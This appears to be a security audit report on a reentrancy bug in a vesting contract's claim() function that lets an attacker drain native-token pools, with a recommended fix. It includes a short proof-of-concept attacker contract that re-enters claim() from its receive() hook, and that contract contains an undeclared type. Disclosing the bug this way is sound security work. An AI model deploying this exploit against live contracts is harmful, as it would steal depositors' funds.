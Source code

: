 High Burgundy Jellyfish

high

# Reentrancy in `Vesting::claim()` allows draining Vesting pool

## Summary
It is possible to drain a Vesting pool if the pool’s asset is address(1) denoting native token  by triggering a reentrancy when call claim().
## Vulnerability Detail
In the Vesting contract, the `claim()` function calls `payable(sender).call` when pool’s asset is address(1) denoting native token, which makes an external call to the receiver of the native token ( to address).
```javascript
function claim() external {
        address sender = msg.sender;

        UserDetails storage s = userdetails[sender];
        require(s.userDeposit != 0, "No Deposit");
        require(s.index != vestingPoints.length, "already claimed");
        uint256 pctAmount;
        uint256 i = s.index;
        for (i; i <= vestingPoints.length - 1; i++) {
            if (block.timestamp >= vestingPoints[i][0]) {
                pctAmount += (s.userDeposit * vestingPoints[i][1]) / 10000;
            } else {
                break;
            }
        }
        if (pctAmount != 0) {
            if (address(token) == address(1)) {
                (bool sent, ) = payable(sender).call{value: pctAmount}("");// Here, an attack gains control of execution
                require(sent, "Failed to send BNB to receiver");
            } else {
                token.safeTransfer(sender, pctAmount);
            }
            s.index = uint128(i);// This updates UserDetails s in the claim, but after the external call
            s.amountClaimed += pctAmount;
        }
    }
```
This outdated state of UserDetails s can be exploited by an attacker once the external call has been made. They can re-enter `claim()` again and again, and draining the whole Vesting pool's assets. 
Proof of Concept:
(1)A user announces invests via a smart contract(ReentrancyAttacker).
(2)The ReentrancyAttacker address is given to the admin of vesting pool.
(3)The admin of vesting pool does operation `updateUserDeposit`.
(4)The user attack the vesting pool using ReentrancyAttacker.
Assuming the balance that can be claim from the Vesting pool is 0.1 ETH. 
The attack contract could be like this:
```javascript

interface IVesting  {
    
    function claim() external ;
}

contract ReentrancyAttacker {
    IVesting victim;

    constructor(ReentrancyVictim _victim) {
        victim = _victim;
    }

    function attack() public payable {
        victim.claim();
    }

    receive() external payable {
        if (address(victim).balance >= 0.1 ether) {
            victim.claim();
        }
    }
}
```

## Impact
The impact for this vulnerability is high. All funds deposited in Vesting with native tokens as the underlying asset can be drained.

## Code Snippet
https://github.com/sherlock-audit/2024-03-zap-protocol/blob/main/zap-contracts-labs/contracts/Vesting.sol#L67C4-L92C6


## Tool used

Manual Review

## Recommendation
updating state before making an external call
```diff
function claim() external {
        address sender = msg.sender;

        UserDetails storage s = userdetails[sender];
        require(s.userDeposit != 0, "No Deposit");
        require(s.index != vestingPoints.length, "already claimed");
        uint256 pctAmount;
        uint256 i = s.index;
        for (i; i <= vestingPoints.length - 1; i++) {
            if (block.timestamp >= vestingPoints[i][0]) {
                pctAmount += (s.userDeposit * vestingPoints[i][1]) / 10000;
            } else {
                break;
            }
        }
        if (pctAmount != 0) {
+           s.index = uint128(i);
+           s.amountClaimed += pctAmount;
            if (address(token) == address(1)) {
                (bool sent, ) = payable(sender).call{value: pctAmount}("");
                require(sent, "Failed to send BNB to receiver");
            } else {
                token.safeTransfer(sender, pctAmount);
            }
-           s.index = uint128(i);
-           s.amountClaimed += pctAmount;
        }
    }
```
